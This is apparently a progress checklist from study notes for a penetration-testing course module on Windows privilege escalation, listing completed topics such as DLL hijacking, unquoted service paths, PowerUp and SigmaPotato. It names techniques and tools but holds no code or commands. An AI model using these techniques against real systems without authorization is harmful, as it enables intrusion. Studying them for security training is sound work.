- [x] **17.1.5 Automated Enumeration:** done (winPEAS, PowerUp, Seatbelt coverage, limitations noted)
- [x] **17.2.1 Service Binary Hijacking:** done (icacls masks, adduser.c, mingw compile, reboot approach, PowerUp AbuseFunction and its known bug)
- [x] **17.2.2 DLL Hijacking:** done (DLL search order diagram, Process Monitor workflow, DllMain template, missing DLL detection, --shared compile)
- [x] **17.2.3 Unquoted Service Paths:** done (path resolution sequence diagram, wmic command, icacls check, PowerUp Get-UnquotedService + Write-ServiceBinary)
- [x] **17.3.1 Scheduled Tasks:** done (three key questions, schtasks enumeration, binary replacement attack, timing considerations)
- [x] **17.3.2 Using Exploits:** done (three exploit categories, CVE-2023-29360 workflow, SeImpersonatePrivilege + named pipes architecture, SigmaPotato usage, Potato family overview)
- [x] **17.4 Wrapping Up:** done (full decision flowchart, external resources, related boxes)

**Module 17 theory and quiz answers fully written. All hands-on labs remain ⬜ Pending (VM spin-up required).**
